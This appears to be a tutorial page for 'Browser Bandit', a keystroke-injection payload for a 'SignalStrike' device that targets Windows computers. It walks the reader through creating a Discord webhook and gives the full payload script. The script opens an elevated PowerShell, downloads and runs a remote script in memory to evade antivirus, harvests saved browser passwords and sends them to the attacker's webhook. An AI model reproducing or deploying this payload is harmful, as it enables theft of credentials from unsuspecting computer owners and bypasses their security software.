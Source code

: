 Browser Bandit (SignalStrike)
Requirements:

    Hardware: Code-382 SignalStrike (store)
    Attacker: Windows/Linux/MacOS/Android/iOS with Discord installed
    Target: Windows 7/10/11

Browser Bandit can be deployed alongside the Code-382 SignalStrike. This combination leverages a PowerShell payload that executes directly in the system’s memory, bypassing antivirus detection and eliminating the need to write files locally. The PowerShell script then downloads Nirsoft’s WebBrowserPassView application, runs it, and collects any discovered passwords. The resulting password data is saved in a .txt file, which is then transmitted to the attacker’s Discord Webhook.
1. Create a Discord Webhook

To set up a Discord webhook, follow these steps:

    Create a new Discord server (if you don’t have one already).
    Right-click on the server icon and select Server Settings.
    Navigate to Integrations > New Webhook.
    Copy the webhook link and save it somewhere safe for later use.

2. Download Payload.txt

Next, you need to download Payload.txt. You can get it either from the Code-382 GitHub repository or by copying the code provided below.

In the Payload.txt file, locate line 12 and replace <DISCORD WEBHOOK HERE> with your actual Discord webhook URL (without the angle brackets <>).
Payload.txt

perl

DELAY 100
GUI d
GUI r
DELAY 500
STRING powershell
CONTROL SHIFT ENTER
DELAY 3000
ALT Y
ENTER

DELAY 3000
STRING $webhook = '<DISCORD WEBHOOK HERE>'
ENTER
SPACE
STRING Start-Process powershell -ArgumentList "-NoProfile -WindowStyle Hidden -Command `$webhook='$webhook'; iex (iwr 'https://raw.githubusercontent.com/Code-382/Payload-Depot/main/SignalStrike/Browser%20Bandit/BrowserBandit.txt').Content" -NoNewWindow
ENTER

3. Upload Your Payload to SignalStrike

    Plug in your SignalStrike device.
    Connect to its WiFi network (Default SSID: SignalStrike, Password: SignalStrike).
    Open a web browser and go to 192.168.4.1 to access the control panel.
    Create a new payload and name it "Browser Bandit".
    Paste your modified Payload.txt (with the webhook) into the text box provided.
    Save the payload and execute it.
